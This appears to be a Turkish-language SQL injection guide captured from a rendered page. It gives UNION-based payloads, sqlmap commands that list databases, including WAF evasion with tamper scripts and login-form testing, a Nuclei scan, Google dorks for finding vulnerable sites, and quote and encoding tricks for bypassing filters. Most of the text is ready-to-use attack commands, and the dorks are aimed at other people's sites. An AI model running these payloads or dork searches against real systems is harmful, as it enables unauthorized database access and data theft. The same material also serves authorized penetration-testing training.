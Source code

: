 🔴 UNION-Based SQLi Testi
Eğer SQL sorgusuna UNION operatörü eklenirse ve ek veriler çekilebiliyorsa, SQL Injection açığı olabilir.
sql
```sql
https://target.com/product.php?id=5 UNION SELECT 1,2,3,4,5 --
```
📌 Eğer sayfalarda yeni değerler görüntülenirse, SQLi açığı mevcut olabilir.

2️⃣ Otomatik Araçlarla SQL Açığı Tespiti
🔹 SQLmap ile SQL Açığı Tespiti
SQLmap, SQL Injection tespiti ve sömürme işlemleri için kullanılan en popüler araçlardan biridir.
📌 Temel tarama komutu:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
✅ --dbs: Veritabanı adlarını listeler.
```
📌 Güvenlik duvarı (WAF) varsa yavaş tarama:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs --random-agent --tamper=space2comment
```
📌 Form verisi içeren istekleri test etmek için:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs
```

🔹 Nuclei ile SQL Açığı Tespiti
Nuclei, SQL Injection dahil birçok güvenlik açığını test etmek için kullanılabilir.
bash
nuclei -t cves/ -u https://target.com

🔹 SQLi Dorkları ile Google'da Açık Arama
Google Dork kullanarak potansiyel SQL Injection açıkları olan siteleri bulabilirsiniz.
📌 Google Dork Örnekleri:
bash
```plaintext
inurl:"php?id="
inurl:"product.php?id="
```
💡 Açıklama: Google'da bu tür parametreleri içeren sayfaları bulup manuel test yapabilirsiniz.

3️⃣ WAF ve Güvenlik Önlemleri Olan Sitelerde SQLi Testi
Bazı web siteleri güvenlik duvarı (WAF) veya filtreleme mekanizmaları kullanır. Bu durumda:
🔹 Karakterleri Bypass Etme:
sql
```plaintext
id=5' --+
id=5'#
```
id=5" or "1"="1
🔹 Encodings Kullanma:
URL Encoding (%27 yerine ')
Hex Encoding (0x31 yerine 1)
Base64 Encoding
